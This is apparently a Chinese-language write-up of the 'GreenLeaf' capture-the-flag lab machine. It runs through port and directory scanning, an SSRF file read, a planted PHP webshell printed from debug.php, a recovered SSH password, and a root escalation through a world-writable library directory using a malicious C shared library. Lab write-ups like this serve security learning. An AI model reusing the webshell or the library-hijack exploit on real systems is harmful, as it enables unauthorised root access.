






# GreenLeaf


# GreenLeaf

## 端口扫描

```php
(base) ┌──(root㉿kali)-[~]
└─# nmap 192.168.56.172
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-07-08 07:17 UTC
Nmap scan report for 192.168.56.172
Host is up (0.00080s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:87:0B:4F (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 0.25 seconds
```

## 80/tcp

发现可以通过 ssrf 读取到文件，可以把源码读出来，`/var/www/html/index.php`



没其他发现然后去枚举一下目录，发现有个 debug.php

```php
(base) ┌──(root㉿kali)-[~]  feroxbuster -u http://192.168.56.172/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php,html,bak,old,zip,tar.gz,sh -t 50 -d 2 -d 2   
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.13.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://192.168.56.172/
 🚩  In-Scope Url          │ 192.168.56.172
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.13.0
 🔎  Extract Links         │ true
 💲  Extensions            │ [txt, php, html, bak, old, zip, tar.gz, sh]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 2
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        9l       32w      316c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET        9l       29w      319c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET      100l      490w     5153c http://192.168.56.172/index.php
200      GET      100l      490w     5153c http://192.168.56.172/
200      GET        0l        0w        0c http://192.168.56.172/debug.php
🚨 Caught ctrl+c 🚨 saving scan state to ferox-http_192_168_56_172_-1783496260.state ...
[##>-----------------] - 2m    246555/1984914 17m     found:3       errors:0      
[##>-----------------] - 2m    246285/1984914 1768/s  http://192.168.56.172/                                                                                                                                                                      
```

再把源码读取出来

```php
<?php if(isset($_GET["sys_diag_exec"])){ echo "<pre>"; system($_GET["sys_diag_exec"]." 2>&1"); echo "</pre>"; } ?>
```



发现这就是一个 rce 入口，留了一个 webshell 文件，并且在 home 目录下发现有个 ` .passwd.txt` 文件



拿到 `Lumen`​ 用户的 ssh 密码：`Gr33nL34f_Lum3n`



直接 ssh 上去

```php
(base) ┌──(root㉿kali)-[~]
└─# ssh Lumen@192.168.56.172
Lumen@192.168.56.172's password: 
Linux GreenLeaf 7.0.11-1-liquorix-amd64 #1 ZEN SMP PREEMPT liquorix 7.0-12.1~trixie (2026-06-01) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Jul  2 07:36:50 2026 from 192.168.0.102
Lumen@GreenLeaf:~$ ls
user.txt
Lumen@GreenLeaf:~$ cat user.txt 
flag{user-c4ca4238a0b923820dcc509a6f75849b}
Lumen@GreenLeaf:~$ 
```

## 提权

然后枚举发现可疑 SUID：

```python
Lumen@GreenLeaf:~$ find / -perm -4000 -type f 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/mount
/usr/bin/passwd
/usr/bin/sudo
/usr/bin/su
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/chfn
/usr/local/bin/logparser
Lumen@GreenLeaf:~$ 
```

发现有个  `/usr/local/bin/logparser`​，先执行一下看看，发现动态链接器先找 `libparser.so.1`，但没找到。

```python
Lumen@GreenLeaf:~$ /usr/local/bin/logparser
/usr/local/bin/logparser: error while loading shared libraries: libparser.so.1: cannot open shared object file: No such file or directory
```

然后可以检查动态链接信息：

```python
Lumen@GreenLeaf:~$ readelf -d /usr/local/bin/logparser | egrep 'RPATH|RUNPATH|NEEDED'
 0x0000000000000001 (NEEDED)             Shared library: [libparser.so.1]
 0x0000000000000001 (NEEDED)             Shared library: [libc.so.6]
 0x000000000000001d (RUNPATH)            Library runpath: [/usr/local/lib/logparser/]
```

- `NEEDED libparser.so.1`：说明它启动必须加载这个库。
- `NEEDED libc.so.6`：正常依赖 libc。
- `RUNPATH [/usr/local/lib/logparser/]`

  - 关键点。动态链接器会去这个目录找 `libparser.so.1`。
  - 也就是说，搜索路径不是系统默认库目录，而是这个程序自己指定的目录。

然后再看一下 `/usr/local/lib/logparser/`​ 这个目录的权限，发现 `drwxrwxrwx`，任何用户都可写。

```python
Lumen@GreenLeaf:~$ ls -ld /usr/local/lib/logparser
drwxrwxrwx 2 root root 4096 Jul  8 03:26 /usr/local/lib/logparser
Lumen@GreenLeaf:~$ 
```

所以这里提权的思路如下：

- `logparser`​ 是 `SUID root`​，执行时进程有效权限是 `root`。
- 在程序真正运行前，动态链接器会先加载 `libparser.so.1`。
- 在 `/usr/local/lib/logparser/`​ 放一个自己编译的 `libparser.so.1`，链接器就会把它当成合法依赖加载。
- 你的恶意库一旦被加载，库里的 `constructor`​ 会先执行，权限还是 `root`。

然后我们编译一个 恶意 so 利用

```c
#include <unistd.h>
__attribute__((constructor)) static void init(void) {
    setgid(0);
    setuid(0);
    execl("/bin/bash", "bash", "-p", NULL);
}
void parse_log(const char *logfile) {
    (void)logfile;
}
```



- `constructor`​ 会在 `main()` 前自动执行。
- 所以你一运行 `/usr/local/bin/logparser`​，恶意代码就先以 `root` 身份跑了。

最后编译一下，然后再运行一下 /usr/local/bin/logparser 即可

```bash
Lumen@GreenLeaf:/tmp$ gcc -shared -fPIC -o /usr/local/lib/logparser/libparser.so.1 /tmp/exp.c
Lumen@GreenLeaf:/tmp$ ls -l /usr/local/lib/logparser/libparser.so.1
file /usr/local/lib/logparser/libparser.so.1
-rwxrwxr-x 1 Lumen Lumen 15504 Jul  8 04:00 /usr/local/lib/logparser/libparser.so.1
/usr/local/lib/logparser/libparser.so.1: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, BuildID[sha1]=b276e2b533c88b1b21cc3764a597ca145cfc32d3, not stripped
Lumen@GreenLeaf:/tmp$ /usr/local/bin/logparser /var/log/apache2/access.log
root@GreenLeaf:/tmp# id
uid=0(root) gid=0(root) groups=0(root),1000(Lumen)
root@GreenLeaf:/tmp# cat /root/root.txt 
flag{root-c4d038b4bed09fdb1471ef51ec3a32cd}
root@GreenLeaf:/tmp#
```



flag：

> `user.txt`​: `flag{user-c4ca4238a0b923820dcc509a6f75849b}`
>
> `root.txt`​: `flag{root-c4d038b4bed09fdb1471ef51ec3a32cd}`

‍


---

> 作者: [lpppp](/)  
> URL: https://lpppp.xyz/posts/greenleaf/  

